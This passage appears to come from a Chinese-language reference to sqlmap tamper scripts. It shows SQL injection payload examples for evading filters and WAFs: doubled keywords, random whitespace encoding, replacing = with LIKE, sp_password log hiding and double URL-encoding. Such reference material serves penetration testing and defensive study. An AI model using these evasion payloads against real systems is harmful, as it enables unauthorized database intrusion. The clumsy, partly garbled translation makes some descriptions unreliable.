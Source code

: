作用：代替空格字符后与一个有效的随机空白字符的SQL语句。 然后替换=为like

```
Example: ('SELECT id FROM users where id = 1') 'SELECT%09id FROM users where id LIKE 1' 

```

Tested against:

*   MySQL 5.1, SGOS

脚本名：nonrecursivereplacement.py
------------------------------

* * *

双重查询语句。取代predefined SQL关键字with表示 suitable for替代（例如 .replace（“SELECT”、””)） filters

```
Example: ('1 UNION SELECT 2--') '1 UNIOUNIONN SELESELECTCT 2--' Tested against: all 

```

脚本名：space2randomblank.py
------------------------

* * *

作用：代替空格字符（“”）从一个随机的空白字符可选字符的有效集

```
Example: ('SELECT id FROM users') 'SELECT%0Did%0DFROM%0Ausers'

```

Tested against: all

脚本名：sp_password.py
------------------

* * *

作用：追加sp_password’从DBMS日志的自动模糊处理的有效载荷的末尾

```
Example: ('1 AND 9227=9227-- ') '1 AND 9227=9227-- sp\_password' Requirement: * MSSQL 

```

脚本名：chardoubleencode.py
-----------------------

* * *

作用: 双url编码(不处理以编码的)

```
Example: 

* Input: SELECT FIELD FROM%20TABLE 

* Output: %2553%2545%254c%2545%2543%2554%2520%2546%2549%2545%254c%2544%2520%2546%2552%254f%254d%2520%2554%2541%2542%254c%2545

```
